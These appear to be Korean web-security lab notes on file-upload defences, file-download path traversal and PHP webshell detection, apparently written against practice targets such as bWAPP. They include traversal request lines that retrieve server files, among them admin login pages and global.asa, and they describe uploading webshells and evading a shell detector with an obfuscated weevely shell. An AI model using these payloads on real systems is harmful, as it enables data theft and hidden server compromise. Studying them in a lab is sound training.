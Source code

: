### 파일 업로드 취약점 대응방안 
1. 화이트 리스트 방식으로 확장자 검증 -> 이미지 업로드이면 `jpg`, `png`만 허용
2. 업로드 경로에 대한 검증
    * `board_idx=5&path=2` 이런건 서버사이드에서 조회 
    * ` (path=??, filename=??)` DBMS에서 조회
3. 파일 업로드되는 경로에 실행 권한 제거 (최소 권한 원칙)

파일 업로드 취약점은 사실 찾기 힘들다..

## 파일 다운로드 취약점
중요 파일을 다운로드 받을 수 있는 취약점


` /demoshop/shop_board/shop_download.asp?strFileName=shell(46).asp&f_path=upload_file `

` /demoshop/shop_board/shop_download.asp?strFileName=../shop_download.asp&f_path=upload_file `

` http://210.95.67.235:8183/demoshop/admin/admin_login.asp?strFileName=admin_login.asp&f_path=../../upload_file `

` /demoshop/shop_board/shop_download.asp?strFileName=../../admin_login.asp&f_path=upload_file `

` GET /demoshop/shop_board/shop_download.asp?strFileName=/admin/admin_login.asp&f_path=../admin HTTP/1.1 `

` GET /demoshop/shop_board/shop_download.asp?strFileName=global.asa&f_path=../../ HTTP/1.1 `

## 웹쉘 탐지 솔루션
* [웹셀 탐지 솔루션 링크](https://github.com/emposha/PHP-Shell-Detector)
1. ` cp /home/bee/PHP-Shell-Detector-master.zip /var/www/ `
2. ` unzip PHP-Shell-Detector-master.zip `
3. 웹쉘 탐지 솔루션 접속 -> http://192.168.113.130/PHP-Shell-Detector-master
4. `shell.php` -> admin/protect로 로그인
5. `vim shelldetect.php` 하고 scan 부분에 경로 넣기
6. kali에서 ` /usr/share/webshells/php/ `에 있는 웹쉘을 bWAPP unrestricted_file_uplad.php에 업로드

### 웹쉘 탐지 방지하는 법
* db 정보? base64
* ` /var/www/PHP-Shell-Detector-master# cat shelldetect.db | more ` 
* https://www.base64decode.org/ 여기서 디코딩
* 일치하면 웹쉘 탐지 솔루션에서 positve라고 뜸
* 웹쉘은 어떻게 탐지하는가?
    * 해시값으로 검사 (속도를 빠르게 하기 위해 )
    * 없으면 문자열으로 검사 (의심되는 함수)
        * PHP 웹쉘 주요 함수 System, Exec, Passthru 등

### 웹쉘 탐지 솔루션 우회 방법   
`sudo weevely generate hacker shell.php` -> hacker 패스워드를 난독화하는 php 코드   
`md5sum shell.php` -> 난독화 코드 생성 -> `4458d9e75e5f7d7c0fe695f13039d61e  shell.php `   
 
이 `shell.php` 를 웹쉘 방지 솔루션에 올리면 탐지를 못함